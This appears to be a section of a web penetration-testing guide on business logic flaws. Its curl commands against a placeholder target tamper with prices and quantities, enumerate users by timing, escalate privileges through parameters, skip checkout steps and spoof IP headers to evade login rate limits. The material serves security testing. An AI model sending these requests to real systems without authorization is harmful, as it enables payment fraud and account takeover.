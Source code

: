 ## Business Logic Vulnerabilities

### **Application-Specific Logic Flaws**

**What business logic flaws are:** Vulnerabilities in application-specific functionality that don't fit traditional vulnerability categories but allow unauthorized actions.

**Why business logic testing is important:** These flaws are often missed by automated scanners but can provide significant access to application functionality.

```bash
# Price manipulation testing (e-commerce)
curl -X POST -d "item_id=123&price=-10.00&quantity=1" http://target.com/purchase.php
# Negative price testing
# May result in credit to attacker's account

curl -X POST -d "item_id=123&price=0.01&quantity=1" http://target.com/purchase.php
# Price modification testing
# Tests if client-side prices are trusted

# Quantity manipulation
curl -X POST -d "item_id=123&quantity=-5" http://target.com/cart.php
# Negative quantity testing
# May cause unexpected behavior

# User enumeration via response timing
time curl -X POST -d "username=existing_user&password=wrong" http://target.com/login.php
time curl -X POST -d "username=nonexistent_user&password=wrong" http://target.com/login.php
# Compares response times
# Different timing may indicate user existence

# Privilege escalation via parameter manipulation
curl -b "session=user_session" http://target.com/profile.php?user_id=1
curl -b "session=user_session" http://target.com/profile.php?user_id=2
# Tests horizontal privilege escalation
# Access to other users' data

curl -b "session=user_session" -X POST -d "role=admin" http://target.com/update_profile.php
# Tests vertical privilege escalation
# Attempts to elevate privileges

# Workflow bypass testing
curl -X POST -d "step=3" http://target.com/checkout.php
# Skips intermediate steps
# May bypass validation or payment

# Rate limiting bypass
curl -H "X-Forwarded-For: 192.168.1.1" -X POST -d "username=admin&password=wrong" http://target.com/login.php
curl -H "X-Forwarded-For: 192.168.1.2" -X POST -d "username=admin&password=wrong" http://target.com/login.php
# IP spoofing to bypass rate limits
# Uses different source IPs
```
